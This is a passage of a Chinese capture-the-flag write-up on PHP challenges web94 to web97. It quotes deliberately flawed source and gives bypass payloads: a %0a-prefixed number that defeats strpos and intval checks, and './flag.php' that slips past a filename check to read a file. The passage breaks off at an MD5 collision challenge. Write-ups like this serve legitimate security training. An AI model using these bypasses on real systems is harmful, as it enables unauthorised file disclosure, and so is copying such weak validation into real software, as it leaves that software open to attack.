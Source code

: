 ```php
    }
    if(!strpos($num, "0")){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```
增加了一个判断，要求0不能是num的第一个字符，很简单，换行符绕过即可，相当于填充了一个字符，除此之外，分页符%0c，制表符%09都是可以的
payload：/?num=%0a010574
## web95（%0a绕过）
```php
<?php

include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){
        die("no no no!!");
    }
    if(!strpos($num, "0")){
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }
}
```
多过滤了点，但不影响上一题的payload
payload：/?num=%0a010574
## web96（同路径绕过）
```php
<?php

highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }

}

```
明显flag在flag.php中，但是又不能直接传入flag.php，已知flag在当前目录下，所以构造
payload：/?u=./flag.php
## web97（md5强碰撞绕过）
```php
<?php

include("flag.php");
highlight_file(__FILE__);
if (isset($_POST['a']) and isset($_POST['b'])) {
  if ($_POST['a'] != $_POST['b'])
```